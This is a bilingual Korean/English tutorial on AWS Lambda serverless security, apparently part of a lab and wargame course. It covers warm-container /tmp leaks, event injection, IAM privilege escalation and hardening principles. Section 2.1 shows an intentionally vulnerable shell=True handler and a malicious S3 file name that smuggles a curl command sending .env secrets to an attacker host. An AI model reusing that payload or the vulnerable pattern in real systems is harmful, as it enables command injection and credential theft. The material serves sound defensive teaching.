


> 🌐 **Language / 언어**: [🇰🇷 한국어](#한국어) | [🇺🇸 English](#english)

---

<a name="한국어"></a>

# 서버리스 클라우드 보안 심층 분석: AWS Lambda 런타임 해부, 이벤트 인젝션, Warm 컨테이너 영속성 및 최소 권한 방어 아키텍처

> 🏢 **연계 실습 랩**: [Lab 42: ServerlessGuard - Serverless Cloud Security Lab](../../labs/42_serverless_security_lab)  
> 🎯 **관련 워게임 트랙**: `serverless` (서버리스 보안 & 클라우드 이벤트 인젝션 35제)  
> 🛠️ **관련 시뮬레이터**: [Wargame Playground: Serverless Event Injection & Warm Container Inspector](../../wargame/index.html#playground)

---

## 0. 개요: 서버리스 패러다임과 새로운 공격 표면

서버리스(Serverless / FaaS) 아키텍처는 인프라 관리 부담을 클라우드 제공자(CSP)에게 위임하고 이벤트 기반으로 코드를 실행함으로써 비즈니스 민첩성을 극대화합니다. 그러나 **"서버가 없다"는 것은 보안 관리 책임이 사라짐을 의미하지 않습니다.** 

공격자의 관점에서 서버리스는 물리적 OS 패치나 SSH 브루트포스 대신, **신뢰되지 않은 비정형 클라우드 이벤트(Event Injection)**, **컨테이너 재사용에 따른 임시 스토리지 잔존 데이터(Warm Container State Leak)**, 그리고 **과도하게 부여된 와일드카드 IAM 실행 역할(Overprivileged IAM Role)**을 정밀 타격하는 완전히 새로운 공격 표면(Attack Surface)을 제공합니다.

```
+---------------------------------------------------------------------------------------------------+
|                        서버리스 이벤트 주도 아키텍처의 핵심 공격 벡터                              |
+---------------------------------------------------------------------------------------------------+

 [이벤트 소스]               [이벤트 버스/API]          [Lambda 실행 환경 (MicroVM)]       [클라우드 백엔드 자원]
 ┌──────────────┐            ┌──────────────┐         ┌────────────────────────┐        ┌──────────────────┐
 │ S3 Bucket /  │──(1. Event)│ API Gateway/ │──(2. In)│ Firecracker MicroVM    │──(3. In)│ DynamoDB / S3 /  │
 │ SQS / SNS    │            │ EventBridge  │         │ ┌────────────────────┐ │        │ RDS Database     │
 └──────────────┘            └──────────────┘         │ │ Handler Function   │ │        └──────────────────┘
        │                                             │ ├────────────────────┤ │                 ▲
   [공격 벡터 1]                                      │ │ /tmp Ephemeral FS  │ │                 │
  Event Poisoning                                     │ │ (Warm Container)   │ │           [공격 벡터 3]
  s3.object.key 메타데이터                            │ └────────────────────┘ │          STS AssumeRole 남용
  쉘 메타문자 인젝션                                 └────────────────────────┘          와일드카드 권한상승
                                                                  ▲
                                                            [공격 벡터 2]
                                                       /tmp 잔존 세션 토큰 탈취
                                                       컨테이너 재사용 상태 오염
```

본 심층 분석에서는 AWS Lambda 및 KNative 서버리스 환경의 내부 동작 원리를 해부하고, 이벤트 인젝션 공격 기법, Warm 컨테이너 수명주기 취약점, 그리고 엔터프라이즈급 서버리스 런타임 하드닝 및 IAM 최소 권한 거버넌스를 체계적으로 다룹니다.

---

## 1. AWS Lambda 런타임 아키텍처와 컨테이너 수명주기 해부

AWS Lambda는 경량 가상화 기술인 **Firecracker MicroVM** 위에서 격리된 샌드박스를 구동합니다. 성능 최적화를 위해 첫 호출 시 콜드 스타트(Cold Start)를 거친 후, 일정 시간 동안 컨테이너 인스턴스를 유지(Warm Container)하여 후속 요청을 처리합니다.



### 1.1 Warm 컨테이너의 보안적 함정

1. **`/tmp` 디렉터리의 영속성**:
   - Lambda 함수에 할당되는 512MB~10GB의 `/tmp` 스토리지는 **호출 간에 자동으로 삭제되지 않습니다.**
   - 1차 호출에서 다운로드한 영수증 PDF, 인증 토큰, 임시 키스토어 파일이 그대로 남아 있어, 2차 호출을 트리거한 비인가 사용자가 이를 읽거나 조작할 수 있습니다.
2. **글로벌 메모리 및 전역 변수 잔류**:
   - 핸들러 외부(글로벌 스코프)에 선언된 객체, 데이터베이스 연결 풀, 캐싱된 AWS STS 자격증명은 동일 컨테이너 내에서 공유됩니다.
   - 격리되지 않은 정적 캐시는 이전 트랜잭션의 고객 정보 유출로 직결됩니다.

---

## 2. 서버리스 이벤트 인젝션 (Serverless Event Injection) 심층 분석

전통적인 웹 애플리케이션에서는 HTTP 요청의 쿼리 스트링이나 바디를 검증하지만, 서버리스 환경에서는 **비정형 클라우드 이벤트 객체**가 직접 핸들러의 인자로 주입됩니다.

### 2.1 S3 ObjectCreated 이벤트 인젝션 메커니즘

다음은 많은 엔터프라이즈 환경에서 사용되는 전형적인 취약한 Lambda 핸들러 패턴입니다:

```python
# 취약한 AWS Lambda 핸들러 예제 (anti-pattern)
import subprocess

def lambda_handler(event, context):
    for record in event['Records']:
        bucket = record['s3']['bucket']['name']
        key = record['s3']['object']['key']
        
        # 위험: key 파라미터를 쉘 문자열로 직접 결합
        cmd = f"/usr/bin/pdftotext /tmp/{key} /tmp/{key}.txt"
        subprocess.run(cmd, shell=True, check=True)
```

공격자가 S3 버킷에 다음과 같은 특수 파일명을 업로드하면 이벤트가 트리거됩니다:
```bash
invoice_2026.pdf; curl -X POST https://c2.attacker.com/exfil -d @/var/task/.env #
```
`shell=True`로 인해 쉘 메타문자 `;`가 명령 구분자로 해석되어 본래의 `pdftotext` 실행 후 공격자의 임의 명령어가 실행됩니다.

---

## 3. 서버리스 IAM 실행 역할 권한 상승 (Privilege Escalation)

AWS Lambda 함수는 AWS 리소스에 접근하기 위해 **Execution Role**을 부여받습니다. 개발 편의를 위해 흔히 부여되는 와일드카드 정책은 치명적인 클라우드 장악으로 이어집니다.



---

## 4. 엔터프라이즈 서버리스 하드닝 4대 원칙

1. **읽기 전용 루트 파일시스템 (Read-only Root Filesystem)**:
   - 컨테이너 런타임의 루트 파일시스템을 불변(Immutable)으로 강제하여 공격자의 백도어 툴킷 설치를 차단합니다.
2. **호출 간 `/tmp` 스크러빙 (Ephemeral Scrubbing)**:
   - 핸들러 종료 훅(`finally` 블록)에서 `/tmp`의 모든 파일을 즉시 삭제하거나 민감 데이터를 메모리 내에서만 처리합니다.
3. **엄격한 이벤트 스키마 검증 (Strict JSON Schema Validation)**:
   - Pydantic 또는 JSON Schema를 사용하여 허용된 문자열 패턴(화이트리스트 정규식)만을 통과시킵니다.
4. **IAM 최소 권한 원칙 (Least Privilege IAM Policy)**:
   - 와일드카드 `Resource: *` 및 `Action: ["s3:*", "sts:AssumeRole"]`를 배제하고, 특정 버킷 ARN 및 접두사(`arn:aws:s3:::corp-invoice-intake/*.pdf`)에 대해서만 `s3:GetObject` 권한을 부여합니다.

---

<a name="english"></a>

# Deep Dive: Serverless Cloud Security — AWS Lambda Internals, Event Injection, Warm Container State Leaks, and Least-Privilege Architecture

> 🏢 **Hands-on Lab**: [Lab 42: ServerlessGuard - Serverless Cloud Security Lab](../../labs/42_serverless_security_lab)  
> 🎯 **Associated Wargame Track**: `serverless` (Serverless Security & Cloud Event Injection - 35 Challenges)  
> 🛠️ **Simulator**: [Wargame Playground: Serverless Event Injection & Warm Container Inspector](../../wargame/index.html#playground)

---

## 0. Introduction: The Serverless Security Paradigm

Serverless computing (FaaS) abstracts infrastructure operations away from application developers. However, **"serverless" does not mean "security-less."** Instead, the attack surface shifts from host operating system compromises to **untrusted cloud event injection**, **execution environment container reuse leaks**, and **overprivileged IAM execution roles**.

This technical deep dive explores the mechanics of Firecracker MicroVM container reuse, event-driven deserialization attacks, and architectural defenses for enterprise serverless workloads.

---

## 1. AWS Lambda Container Lifecycle & Warm Execution Hazards

Lambda execution environments are created on demand and kept warm for subsequent invocations to mitigate cold-start latency. 

Key hazards include:
1. **Persistent `/tmp` Storage**: The `/tmp` scratchpad survives between invocations within the same container sandbox, leaking temporary keys, authentication caches, and database credentials to later executions.
2. **Global Variable State Retention**: In-memory connection pools and shared variables remain accessible across separate request contexts, violating multi-tenant isolation assumptions.

---

## 2. Serverless Event Injection Vulnerabilities

Unlike traditional web applications where inputs arrive through HTTP requests, serverless architectures receive inputs from disparate cloud services (Amazon S3, SQS, SNS, DynamoDB Streams). When handlers concatenate event attributes (e.g., `s3.object.key`) directly into subshell commands without validation, remote code execution (RCE) occurs within the MicroVM sandbox.

---

## 3. Serverless IAM Hardening & Least-Privilege Governance

Enforcing the Principle of Least Privilege (PoLP) on Lambda execution roles requires:
- Eliminating broad `sts:AssumeRole` and `iam:PassRole` permissions.
- Scoping S3 resource access strictly to deterministic object prefixes.
- Enforcing read-only root filesystems and scrubbing ephemeral `/tmp` state upon handler exit.
